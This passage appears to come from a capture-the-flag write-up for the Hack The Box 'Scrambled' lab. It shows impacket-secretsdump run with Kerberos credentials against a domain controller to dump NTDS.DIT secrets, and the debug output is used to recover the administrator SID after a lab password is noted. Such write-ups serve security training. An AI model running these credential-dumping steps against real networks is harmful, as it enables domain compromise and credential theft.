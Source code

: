 ## Secrets Dump

Now we have an account called sqlsvc with a password of Pegasus60. Next we need to get the SID of the administrator account, we can use secretsdump:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# impacket-secretsdump -k scrm.local/ksimpson@dc1.scrm.local -no-pass
Impacket v0.10.1.dev1+20220708.213759.8b1a99f7 - Copyright 2022 SecureAuth Corporation

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
```

This didn't work like normal, probably for a similar reason as the other script. A search for [this](https://github.com/SecureAuthCorp/impacket/issues/991) issue which says to add debug:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# impacket-secretsdump -k scrm.local/ksimpson@dc1.scrm.local -no-pass -debug 
Impacket v0.10.1.dev1+20220708.213759.8b1a99f7 - Copyright 2022 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/local/lib/python3.10/dist-packages/impacket
[+] Using Kerberos Cache: ksimpson.ccache
[+] SPN CIFS/DC1.SCRM.LOCAL@SCRM.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/SCRM.LOCAL@SCRM.LOCAL
[+] Using TGT from cache
[+] Trying to connect to KDC at SCRM.LOCAL
[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Session resume file will be sessionresume_jLiLWMcH
[+] Trying to connect to KDC at SCRM.LOCAL
[+] Calling DRSCrackNames for S-1-5-21-2743207045-1827831105-2542523200-500 
[+] Calling DRSGetNCChanges for {edaf791f-e75b-4711-8232-3cd66840032a} 
<SNIP>
impacket.dcerpc.v5.drsuapi.DCERPCSessionError: DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
```

We see the SID of **S-1-5-21-2743207045-1827831105-2542523200-500** has been retrieved even though there is still the error. It ends in 500 so we know this is the administrator SID.
